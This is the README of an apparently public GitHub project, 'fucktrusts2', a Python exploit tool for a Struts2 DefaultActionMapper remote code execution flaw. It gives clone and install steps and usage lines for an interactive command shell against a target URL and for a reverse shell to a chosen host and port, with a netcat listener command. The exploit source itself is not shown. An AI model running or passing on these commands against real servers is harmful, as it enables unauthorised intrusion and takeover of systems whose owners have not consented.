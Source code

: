 <h1 align="center">
<br>⚔️ Fucktruts2 ⚔️
</h1>

<!-- ABOUT THE PROJECT -->
## 📚 About The Project


   fucktrusts2 is a python script for exploit a Struts2 DefaultActionMapper RCE.
   
![image](https://user-images.githubusercontent.com/80011252/199061368-838631c2-0751-4433-9696-b0d6d6ce0166.png)

### 🛠️ Installation


1. Clone the repo
   ```sh
   git clone https://github.com/scarmandef/fucktrusts2.git
   ```
2. Install dependencies
   ```sh
   pip3 install -r requirements.txt
   ```
3. Run the script
   ```py
   python3 main.py
   ```

### 🖥️ Usage


1. Run the Script
   ```sh
   python3 main.py --help
    ```
3. Interactive Shell
   ```py
   python3 main.py -t https://www.target.com/index.action -c | --cmd
   ```
4. Reverse Shell
   ```py
   python3 main.py -t https://www.target.com/index.action --lhost 127.0.0.1 --port 443
   
   listen with nc
   
   nc -nlvp 443
   
   
   ```


